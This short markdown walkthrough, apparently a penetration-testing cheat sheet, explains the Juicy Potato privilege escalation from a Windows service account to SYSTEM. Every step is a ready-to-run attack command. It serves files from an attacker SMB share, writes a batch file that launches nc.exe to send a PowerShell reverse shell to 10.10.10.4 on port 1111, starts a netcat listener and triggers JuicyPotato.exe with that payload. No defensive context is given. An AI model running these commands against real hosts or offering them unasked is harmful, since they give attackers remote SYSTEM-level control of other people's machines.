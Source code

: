 # Juicy Potato: From Service Accounts to SYSTEM

1. Download [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/)
2. Start SMB server for the purpose of file sharing

        $ smbserver.py -smb2support share ./

3. Create a batch file `nc_reverse_shell.bat` that will return a SYSTEM shell on execution

        echo START \\\\10.10.10.4\\share\\nc.exe -e powershell.exe 10.10.10.4 1111 > nc_reverse_shell.bat

4. Start a listener 

        nc -nlvp 1111

5. Trigger the attack

        \\10.10.10.4\share\JuicyPotato.exe -t * -p \\10.10.10.4\share\nc_reverse_shell.bat -l 1337

